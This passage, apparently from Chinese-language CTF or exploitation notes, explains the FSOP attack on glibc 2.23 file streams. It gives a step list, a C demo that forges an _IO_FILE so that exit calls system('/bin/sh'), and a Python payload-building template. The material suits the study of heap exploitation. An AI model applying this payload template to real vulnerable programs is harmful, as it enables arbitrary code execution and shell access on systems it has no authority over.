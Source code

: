 可以看出当 `fp->_mode <= 0` 并且 `fp->_IO_write_ptr > fp->_IO_write_base` 时即可执行`vtable`中的`__overflow`

__攻击:__

1. 设置 `fake_IO_FILE` 的 `fp->_mode <= 0`, 
2. 设置 `fake_IO_FILE` 的 `fp->_IO_write_ptr = 1`
3. 设置 `fake_IO_FILE` 的 `fp->_IO_write_base = 0`
4. 设置 `fake_IO_FILE` 的 `vtable = fake_vtable`
5. 设置 `fake_IO_FILE` 的头为`/bin/sh`值
6. 设置 `fake_vtable->__overflow = system`，或者设置 `fake_vtable->__overflow = one_gadget`
7. 修改 `_IO_FILE->_chain` 或者 `_IO_list_all` 为 `fake_IO_FILE`
8. `main`返回时或者调用`exit`时即可触发

__示例:__

```C
// glibc-2.23.so
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <demo.h>

int main()
{
    u64 fake_IO_FILE = MALLOC(0x100);

    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xC0, 0);            // 设置fake_IO_FILE->_mode=0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x28, 1);            // 设置fake_IO_FILE->_IO_write_ptr=1
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x20, 0);            // 设置fake_IO_FILE->_IO_write_base=0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xD8, fake_IO_FILE); // 设置fake_IO_FILE->vtable=fake_vtable
    SET_ADDR_VALUE(fake_IO_FILE, BINSH);                     // 修改fake_IO_FILE头为/bin/sh值
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x18, &system);      // 设置fake_vtable->__overflow=system，0x18表示__overflow相对于fake_vtable的偏移

    SET_ADDR_OFFSET_VALUE(stderr, 0x68, fake_IO_FILE); // 设置stderr->chain为fake_FILE_vtable

    return 0; // 触发漏洞
}
```

__模板:__

```python
def FSOP(payload_addr, fun, param_value = BINSH, chain = 0):
    '''
        FSOP攻击工具
        
        payload_addr: payload将要写入的地址
        fun: 要调用的函数的地址
        param_value: 要调用函数的参数为payload_addr, param_value为函数的参数指针所指向的地址的值
        chain: 下一个链的地址(可选)
    '''
    payload = b''
    payload = set_value(payload, 0xC0, 0);            # 设置fake_IO_FILE->_mode=0
    payload = set_value(payload, 0x28, 1);            # 设置fake_IO_FILE->_IO_write_ptr=1
    payload = set_value(payload, 0x20, 0);            # 设置fake_IO_FILE->_IO_write_base=0
    
    payload = set_value(payload, 0xD8, payload_addr); # 设置fake_IO_FILE->vtable=fake_vtable
    payload = set_value(payload, 0, param_value);     # 修改fake_IO_FILE头为/bin/sh值
    payload = set_value(payload, 0x18, fun);          # 设置fake_vtable->__overflow=system，0x18表示__overflow相对于fake_vtable的偏移
    
    payload = set_value(payload, 0x68, chain);        # 修改fake_IO_FILE的chain
    
    return payload
```
